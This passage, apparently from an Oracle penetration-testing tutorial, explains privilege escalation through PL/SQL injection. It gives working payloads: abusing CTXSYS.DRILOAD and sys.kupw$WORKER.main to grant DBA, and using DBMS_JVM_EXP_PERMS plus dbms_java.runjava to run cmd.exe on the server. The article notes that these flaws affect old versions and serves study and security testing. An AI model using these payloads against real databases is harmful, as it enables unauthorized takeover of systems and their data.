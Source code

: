 In short, instead of expected legitimate argument, we pass some malicious code that becomes a part of procedure. A good example is provided by `CTXSYS.DRILOAD` function. It is executed on behalf of `CTXSYS` and does not filter the input parameter, which allows you to easily rise up to `DBA`:

```sql
exec ctxsys.driload.validate_stmt('grant dba to scott');
```

However, by now, this is probably history, since the vulnerability was found in 2004, and it affects only the old versions 8–9. Usually, the process of escalating the privileges is divided into two parts: writing the procedure that increases the rights and performing the injection itself. A typical procedure is as follows:

```sql
CREATE OR REPLACE FUNCTION F1
RETURN NUMBER AUTHID CURRENT_USER
IS
PRAGMA AUTONOMOUS_TRANSACTION;
BEGIN
EXECUTE IMMEDIATE 'GRANT DBA TO TEST';
COMMIT;RETURN(1);END;
/
```

Now we can inject a procedure as an argument of vulnerable function (example for versions 10x):

```sql
exec sys.kupw$WORKER.main('x','YY'' and 1=test1.f1 –-');
```

In the not too recent versions 10 and 11, there is one `nice` exception, or rather a vulnerability, that allows you to execute commands on the server without having `DBA` rights: `DBMS_JVM_EXP_PERMS` procedure allows a user with `CREATE SESSION` privilege to get `JAVA IO` rights. The attack can be mounted as follows:

```sql
SQL&gt; DECLARE
   POL DBMS_JVM_EXP_PERMS.TEMP_JAVA_POLICY;
   CURSOR C1 IS SELECT
'GRANT','GREMLIN','SYS','java.io.FilePermission','&lt;FILES&gt;&gt;','execute','ENABLED' FROM DUAL;
  BEGIN
  OPEN C1;
  FETCH C1 BULK COLLECT INTO POL;
  CLOSE C1;
  DBMS_JVM_EXP_PERMS.IMPORT_JVM_PERMS(POL);
  END;
  /
 
PL/SQL procedure successfully completed.
```

Now that you have the privileges to call up Java procedures, you can evoke a response from the Windows interpreter and execute something:

```sql
SQL&gt; select dbms_java.runjava(‘oracle/aurora/util/Wrapper c:\\windows\\system32\\cmd.exe /c echo 123 &gt;c:\\hack’)from dual;
```
